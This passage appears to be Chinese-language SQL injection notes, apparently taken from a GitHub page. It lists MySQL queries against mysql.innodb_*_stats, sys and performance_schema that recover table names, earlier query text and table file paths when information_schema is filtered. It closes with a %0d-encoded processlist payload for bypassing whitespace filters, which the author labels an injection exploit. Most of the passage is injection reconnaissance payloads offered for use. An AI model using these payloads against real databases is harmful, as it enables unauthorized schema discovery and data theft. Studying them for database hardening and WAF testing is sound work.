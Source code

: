(3)查询之前的记录

innodb：

```
select table_name from mysql.innodb_table_stats where database_name = database();
select table_name from mysql.innodb_index_stats where database_name = database();
```

sys：

```
//包含in
SELECT object_name FROM `sys`.`x$innodb_buffer_stats_by_table` where object_schema = database();
SELECT object_name FROM `sys`.`innodb_buffer_stats_by_table` WHERE object_schema = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_index_statistics` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`schema_auto_increment_columns` WHERE TABLE_SCHEMA = DATABASE();

//不包含in
SELECT TABLE_NAME FROM `sys`.`x$schema_flattened_keys` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$ps_schema_table_statistics_io` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_table_statistics_with_buffer` WHERE TABLE_SCHEMA = DATABASE();

//通过表文件的存储路径获取表名
这个很常用
SELECT FILE FROM `sys`.`io_global_by_file_by_bytes` WHERE FILE REGEXP DATABASE();
SELECT FILE FROM `sys`.`io_global_by_file_by_latency` WHERE FILE REGEXP DATABASE();
SELECT FILE FROM `sys`.`x$io_global_by_file_by_bytes` WHERE FILE REGEXP DATABASE();
//查询记录
SELECT QUERY FROM sys.x$statement_analysis WHERE QUERY REGEXP DATABASE();
SELECT QUERY FROM `sys`.`statement_analysis` where QUERY REGEXP DATABASE();
```

performance_schema：

```
SELECT object_name FROM `performance_schema`.`objects_summary_global_by_type` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_handles` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_io_waits_summary_by_index_usage` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_io_waits_summary_by_table` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_lock_waits_summary_by_table` WHERE object_schema = DATABASE();
//包含之前查询记录的表
SELECT digest_text FROM `performance_schema`.`events_statements_summary_by_digest` WHERE digest_text REGEXP DATABASE();
//包含表文件路径的表
SELECT file_name FROM `performance_schema`.`file_instances` WHERE file_name REGEXP DATABASE();
```

`select%0dInfo%0dfrom%0dinformation_schema.processlist`

补上我的sql注入exp
